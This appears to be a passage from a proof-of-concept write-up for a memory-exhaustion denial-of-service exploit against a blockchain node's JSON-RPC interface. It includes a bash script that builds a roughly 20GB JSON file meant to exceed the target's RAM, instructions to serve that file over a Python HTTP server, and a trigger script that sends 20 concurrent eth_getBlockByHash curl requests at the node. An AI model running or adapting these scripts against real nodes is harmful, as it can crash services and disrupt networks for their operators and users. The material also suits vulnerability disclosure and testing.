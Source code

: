 ```
```

#### Exploit file and server setup

Preferably, on a separate workstation or VM, prepare and run the exploit server and exploit file:

```
#!/bin/bash

# Create a large JSON file. The file size should be more than the amount of available RAM on the target system. This script will create approx 20GB JSON file.
echo 'Creating huge.json'
echo '[' > huge.json

for i in {1..10000000}; do
    echo '{"TESTTESTTESTTESTESTTEST":"TESTTESTTESTTESTTESTTEST"},' >> temp.json;
done

for i in {1..40}; do
    cat temp.json >> huge.json
done

rm temp.json

echo ']' >> huge.json

echo 'DONE'
```

Serve the JSON file with a simple Python server:

```
python3 -m http.server 8000
```

#### Exploit trigger

Once the epxloit node is synced to the network, run the exploit proof-of-concept script to trigger the vulnerability. Remember to setup your JSON-RPC address in the script below:

```
#!/bin/bash

# This script will just curls the JSON-RPC endpoint 20 times and passes all output to /dev/null
# Modify the script to accomodate the JSON-RPC service address

JSON_RPC_ADDR='http://192.168.0.10:8080'

for i in {1..20}; do
    curl -i -X POST $JSON_RPC_ADDR -H 'Content-Type: application/json' --data '{"jsonrpc":"2.0","method":"eth_getBlockByHash","params":["0x58407531dc8899e79c8c80d7cb886349ededc3f03b2730a5d20ff6fcc7199e3d"],"id":1}' 2&>1 /dev/null &
done    
```
